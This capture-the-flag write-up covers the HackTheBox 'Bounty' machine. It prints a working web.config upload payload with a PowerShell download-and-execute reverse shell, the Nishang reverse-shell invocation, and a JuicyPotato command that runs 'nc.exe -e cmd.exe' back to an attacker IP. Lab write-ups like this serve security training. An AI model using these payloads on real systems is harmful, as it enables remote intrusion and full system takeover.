




# Bounty - Easy

Target IP: **10.129.84.138**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.84.138 -v```

Output shows port 80 open, hosting a web server.

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Let's navigate to it.

The website just displays a single image.


We get a single hit from directory enumeration, ```/uploadedfiles```. Definitely seems lucrative.

```
┌──(y㉿peacebreaker)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.84.138/FUZZ -ic -ac      

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.84.138/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 630, Words: 25, Lines: 32, Duration: 26ms]
UploadedFiles           [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 69ms]
uploadedFiles           [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 40ms]
                        [Status: 200, Size: 630, Words: 25, Lines: 32, Duration: 44ms]
uploadedfiles           [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 28ms]
:: Progress: [87651/87651] :: Job [1/1] :: 766 req/sec :: Duration: [0:01:33] :: Errors: 0 ::
```

However, we are restricted.


Scanning with another wordlist gets us another hit, ```/aspnet_client```.

```
┌──(y㉿peacebreaker)-[~]
└─$ ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.129.84.138/FUZZ -ic -ac 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.84.138/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

aspnet_client           [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 28ms]
uploadedfiles           [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 25ms]
:: Progress: [4752/4752] :: Job [1/1] :: 1587 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

We are also restricted here.


However, the existence of ```/aspnet_client``` tells me that ASP.NET is being used. Thus, we could scan again, but this time by adding the ```.aspx``` extension.

Doing so, we find something interesting.

```
┌──(y㉿peacebreaker)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.129.84.138/FUZZ -e .aspx -ic -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.84.138/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
 :: Extensions       : .aspx 
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 630, Words: 25, Lines: 32, Duration: 394ms]
transfer.aspx           [Status: 200, Size: 941, Words: 89, Lines: 22, Duration: 168ms]
```

Let's navigate to ```transfer.aspx```.

It seems like we can upload files here.



I tried directly uploading an ```.aspx``` web shell, but it seems like there is some filtering happening.



Let's see if we can exploit the ```.config``` extension to get RCE. Here is a [PoC](https://raw.githubusercontent.com/JoshMorrison99/web.config-File-Upload-RCE-Check/refs/heads/main/revshell.config) script we can use as the payload to upload.

Here is the payload.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Bounty]
└─$ cat revshell.config                                         
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.16.68:8000/Invoke-PowerShellTcp.ps1')")
%>
```

We also grab a copy of Nishang's Invoke-PowerShellTcp.ps1, and add a command at the end of the file to actually run the script.

```
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }

    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.68 -Port 4444
}
```

Now, let's try uploading the ```.config``` file.

It went through!



I'm guessing the ```/uploadedfiles``` directory will hold the file. We can try navigating to it, hoping the code executes.

After navigating to the file, we see that the script gets downloaded from our web server then executed to give us a shell as ```merlin```.



```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Bounty]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.84.138 - - [17/Oct/2026 22:40:03] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Bounty]
└─$ nc -lvnp 4444                     
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.84.138] 49160
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```

We can proceed to get the user flag from here.

## Root Flag

The OS build is quite old, so we can probably find a kernel exploit to use here.

```
PS C:\Users\merlin\Desktop> systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
```

```SeImpersonatePrivilege``` is also enabled.

```
PS C:\Users\merlin\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Let's use JuicyPotato. We can host an SMB server on our attack box to transfer the executable.

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Bounty]
└─$ sudo impacket-smbserver share -smb2support . -user test -password test -debug
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] Config file parsed
[+] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[+] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```
PS C:\Users\merlin\Desktop> net use n: \\10.10.16.68\share /user:test test
The command completed successfully.

PS C:\Users\merlin\Desktop> copy n:\JuicyPotato.exe .
```

Let's also transfer ```nc.exe```.

After running the executable, we catch a shell as ```NT AUTHORITY\SYSTEM```.

```
PS C:\Users\merlin\Desktop> .\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\users\merlin\Downloads\nc.exe 10.10.16.68 4444 -e cmd.exe" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```
┌──(y㉿peacebreaker)-[~/Labs/HackTheBox/Bounty]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.84.138] 49175
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
